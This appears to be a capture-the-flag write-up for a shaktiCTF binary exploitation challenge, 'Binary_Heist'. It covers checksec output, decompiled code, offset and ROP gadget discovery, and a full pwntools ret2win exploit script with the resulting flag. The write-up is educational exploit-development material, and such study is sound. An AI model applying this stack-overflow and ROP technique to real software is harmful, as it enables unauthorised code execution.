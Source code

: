 # Binary_Heist

**Description**:  
Welcome `Agent 007`, infiltrate the vault and succeed in the greatest binary heist in history.

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
Looks like Agent 007 is back. Ok, It's `checksec` time:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`No PIE and Partial RELRO`, so options like ret2win and got overwrite might be possible. `No canary` also.

Now lets try running the binary:
```
Agency: Welcome, Agent 007. Your mission is to infiltrate the enemy vault.
System: Enter your name for log: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
System: Log entry successful! You will be granted access on entering the correct passcodes.
Segmentation fault (core dumped)
```

Ok so we can overflow the buffer. Lets look at the binary in ida/ghidra. There seems to be a win function called `infiltrate`:
```
void infiltrate(long param_1,long param_2)

{
  undefined8 local_16;
  undefined4 local_e;
  undefined2 local_a;
  
  local_16 = 0x6c75617620746163;
  local_e = 0x78742e74;
  local_a = 0x74;
  if ((param_1 == L'\x1337c0d3') && (param_2 == L'\xacedc0de')) {
    puts("System: Operation Binary Heist - Top-Secret Flag:");
    system((char *)&local_16);
  }
  else {
    puts("WARNING: Intruder!!!. Authorities have been warned.");
  }
  return;
}
```

Yep, its a ret2win with arguments. Now we can hand everything over to gdb.

**TODO**:

*1. Find offset*
```
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```
                            So a padding of length: 24.


*2. Find suitable gadget*    
```
$ ROPgadget --binary binary_heist | grep "pop rdi"
0x0000000000401207 : pop rdi ; pop rsi ; ret
```

*3. Get address of win function*

```0x0000000000401243  infiltrate```


*4. Craft payload*

```payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243)```

**Exploit:**
```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *main
b *input
b *infiltrate
continue
'''.format(**locals())

exe = './binary_heist'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

===========================================================

offset = b'a'*24

#io = remote("13.234.11.113",31491)
io = start()

io.recvuntil('log:')

pop_rdi_rsi_ret = 0x401207

print(elf.functions.infiltrate) #0x401243

payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243) 

io.sendline(payload)

io.interactive()
```

On running the script:
```
[DEBUG] Received 0x2b bytes:
    b'shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}\n'
shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}
```

:thumbsup: Success


Flag: `shaktictf{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}`  
